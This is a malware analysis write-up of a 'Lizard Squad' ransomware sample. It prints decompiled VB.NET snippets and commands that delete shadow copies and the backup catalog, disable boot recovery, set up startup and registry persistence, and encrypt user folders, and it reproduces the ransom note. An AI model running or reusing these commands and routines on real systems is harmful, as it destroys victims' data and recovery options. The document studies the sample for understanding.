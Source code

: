 # Analysis Lizard Squad Ransomware 


[Twitter](https://twitter.com/patri1ck)


Hello Guys ,Today We Will Analysis Ransomware Sample That I Found On Twitter Account [Tweet](https://twitter.com/petrovic082/status/1546833472353968129?s=21) 

Let's Dive Into It 

## Functions 
- [Delete Shadow Copies](#Delete-Shadow-Copies:)
- [Disable Recovery Mode](#Disable-Recovery-Mode:)
- [Delete Backup Catalog](#Delete-Backup-Catalog:)
- [Add Link To Startup](#Add-Link-To-Startup:)
- [Registry Startup](#Registry-Startup:)
- [look For Directories](#look-For-Directories:)
- [Set Wallpaper](#Set-Wallpaper:)
- [Add And Open Note](#Add-And-Open-Note:)

## Delete Shadow Copies:
    Will Execute This Command :
        "vssadmin delete shadows /all /quiet & wmic shadowcopy delete"
    For Delete Shadows copies
<details>
    <summary>Code (click to expand/collapse)</summary>

Private Shared Sub DeleteShadowCopies()
    Program.runCommand("vssadmin delete shadows /all /quiet & wmic shadowcopy delete")
End Sub

</details>

## Disable Recovery Mode:
    Will Execute This Command :
        "bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no"
	to Disable Recovery Mode This Command will Not Allow To The Victim To Use The Recovery Mode 
<details>
    <summary>Code (click to expand/collapse)</summary>

Private Shared Sub DisableRecoveryMode()
    Program.runCommand("bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no")
End Sub

</details>
## Delete Backup Catalog:
	Will Execute This Command :
		"wbadmin delete catalog -quiet"
	To Delete BackUp Catalog 
<details>
    <summary>Code (click to expand/collapse)</summary>

Private Shared Sub DisableRecoveryMode()
    Program.runCommand("wbadmin delete catalog -quiet")
End Sub

</details>
## Add Link To Startup:
    Make lnk File in startup 
	For persistence
<details>
    <summary>Code (click to expand/collapse)</summary>
Private Shared Sub AddLinkToStartup()
	Dim folderPath As String = Enviroment.GetFolderPath(Enviroment.SpecialFolder.Startup)
	Dim str As String = Process.GetCurrentProcess().ProcessName
	Using streamWriter As StreamWriter = New StreamWriter(folderPath + "\" + str + ".url")
		Dim location As String = Assembly.GetExecutingAssembly().location
		streamWriter.WriteLine("[InternetShortcut]")
		streamWriter.WriteLine("URL=file:///"+location)
		streamWriter.WriteLine("iconIndex=0")
		Dim str2 As String = location.Replace("\"c,"/"c)
		streamWriter.WriteLine("IconFile=" + str2)
		End Using
End Sub

</details>
## Registry Startup:
    Set Registry Name Value "Microsoft Store" And Will Set Registry Value Data to The RansomWare Path 
	The Key :
		"HKCU/SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
	To Do persistence
## look For Directories:
	This Function Will Look For Directories And Encrypted It
	The List Of The Directories as Saved As String With User Main Dir 
- Desktop
- Links
- Contacts
- Documents
- Downloads
- Pictures
- Music
- OneDrive
- Saved Games
- Favorites
- Searches
- Videos

<details>
    <summary>Code (click to expand/collapse)</summary>

Dim location As String = Program.userDir + Program.userName + "\Desktop"
Dim location2 As String = Program.userDir + Program.userName + "\Links"
Dim location3 As String = Program.userDir + Program.userName + "\Contacts"
Dim location4 As String = Program.userDir + Program.userName + "\Desktop"
Dim location5 As String = Program.userDir + Program.userName + "\Documents"
Dim location6 As String = Program.userDir + Program.userName + "\Downloads"
Dim location7 As String = Program.userDir + Program.userName + "\Pictures"
Dim location8 As String = Program.userDir + Program.userName + "\Music"
Dim location9 As String = Program.userDir + Program.userName + "\OneDrive"
Dim location10 As String = Program.userDir + Program.userName + "\Saved Games"
Dim location11 As String = Program.userDir + Program.userName + "\Favorites"
Dim location12 As String = Program.userDir + Program.userName + "\Searches"
Dim location13 As String = Program.userDir + Program.userName + "\Videos"
Program.encryptDirectory(location)
Program.encryptDirectory(location2)
Program.encryptDirectory(location3)
Program.encryptDirectory(location4)
Program.encryptDirectory(location5)
Program.encryptDirectory(location6)
Program.encryptDirectory(location7)
Program.encryptDirectory(location8)
Program.encryptDirectory(location9)
Program.encryptDirectory(location10)
Program.encryptDirectory(location11)
Program.encryptDirectory(location12)
Program.encryptDirectory(location13) 
```
## !Dump! He Could Do It With For Loop !
</details>

## Set Wallpaper:
    This func Will Change The Wallpaper
	To This Image :
[![N|Solid](https://pbs.twimg.com/media/FXd016dXoAYn99q?format=jpg&name=small)
<details>
    <summary>Code (click to expand/collapse)</summary>

Public Shared Sub SetWallpaper(base64 As string)
  if base64 <> "" Then
    Try
      Dim text As String = Path.GetTempPath() + Program.RandomString(9) + ".jpg"
      File.WriteAllBytes(text,Convert.FromBase64String(base64))
      Program.SystemParametersInfo(20UI, 0UI,text,1UI)
    Catch
    End Try
  End If
End Sub

</details>
## Add And Open Note:
    This Function Will Write Message For Victim
	The Name Of a File "說明it.txt" 
	And The Message :
	"我來自一個名為：蜥蜴小隊的國際組織", "我們是黑客組織", "我的名字是：09先生", "我會用你的電腦作為收款的抵押品", "", "請支付：USDT-TRC20", "金額：2000", "付款地址：TRZRAM9KL5qv1BMrXxo876wetHfzT19sii", "聯繫方式 ：woo090909@mail2tor.com", "電報：@woo090909", "付款後聯繫我，我會為你解鎖", "如果您不付款，您的計算機和文件將被自動銷毀，", "如果你真的想解決，請隨時支付費用，聯繫我，我會考慮給你打折", 
	"I'm from an international organization called: Lizard Squad , we are a hacker group , My name is: Mr. 09 , I will use your computer as collateral for collection , Please pay: USDT-TRC20 , Amount: 2000 , Payment address: TRZRAM9KL5qv1BMrXxo876wetHfzT19sii , contact details : woo090909@mail2tor.com , telegraph: @woo090909 , Contact me after payment and I will unlock it for you , If you do not pay, your computer and files will be automatically destroyed , If you really want a fix, feel free to pay the fee, contact me and I'll consider giving you a discount" 
Hmmm , The Name Of The Group Looks Familiar To Me :
	https://en.wikipedia.org/wiki/Lizard_Squad

> it seems To me The Ransomware Has Been Built By Ransomware Builder Because I Found It In The source Code , there are Functions Not Used By The Ransomware Sample That I Have And I See Settings Strings Not Used
